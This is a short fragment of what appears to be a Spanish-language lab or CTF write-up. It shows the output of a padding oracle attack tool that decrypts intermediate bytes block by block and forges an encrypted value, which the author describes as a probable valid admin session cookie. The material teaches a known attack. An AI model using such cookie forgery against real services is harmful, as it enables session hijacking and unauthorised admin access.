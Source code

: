 ```bash
The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1388	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

Explicación: tenemos una posible cookie de sesión válida como usuario admin: `BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA`

---
